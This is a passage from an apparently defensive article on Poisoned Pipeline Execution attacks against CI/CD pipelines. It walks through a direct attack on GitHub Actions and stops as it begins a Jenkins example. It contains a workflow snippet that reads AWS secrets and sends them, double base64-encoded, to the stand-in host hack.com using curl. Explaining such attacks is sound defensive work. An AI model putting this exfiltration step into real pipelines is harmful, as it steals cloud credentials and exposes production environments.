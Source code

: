 ![alt_text](assets/images/dppe.jpg)


In this scenario, a D-PPE attack would be carried out as follows:



1. An attacker creates a new remote branch in the repository, in which they update the pipeline configuration file with malicious commands intended to access AWS credentials scoped to the GitHub organization and then to send them to a remote server.

```YAML
name: PIPELINE
on: push
jobs:
 build:
   runs-on: ubuntu-latest
   steps:
     - env:
         ACCESS_KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
         SECRET_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

       run: |
         curl -d creds="$(echo $ACCESS_KEY:$SECRET_KEY | base64 | base64)" hack.com

```



2. Once the update is pushed, this triggers a pipeline which fetches the code from the repository, including the malicious pipeline configuration file.
3. The pipeline runs based on the configuration file “poisoned” by the attacker. As per the attacker’s malicious commands, AWS credentials stored as repository secrets are loaded into memory.
4. The pipeline proceeds to execute the attacker’s commands which send the AWS credentials to a server controlled by the attacker.
5. The attacker is then able to use the stolen credentials to access the AWS production environment.

<span style="text-decoration:underline;">Example 2: Credential theft via Indirect-PPE (Jenkins)</span>

This time, it is a Jenkins pipeline that fetches code from the repository, builds it, runs tests, and eventually deploys to AWS. In this scenario the pipeline configuration is such that the file describing the pipeline - the Jenkinsfile - is always fetched from the main branch in the repository, which is protected. Therefore, the attacker cannot manipulate the build definition, meaning that fetching secrets stored on the Jenkins credential store, or running the job on other nodes are not a possibility.

However - this does not mean that the pipeline is risk free;

In the _build_ stage of the pipeline, AWS credentials are loaded as environment variables, making them available only to the commands running in this stage. In the example below, the _make_ command, which is based on the contents of Makefile (also stored in the repository), runs as part of this stage.

The Jenkinsfile:

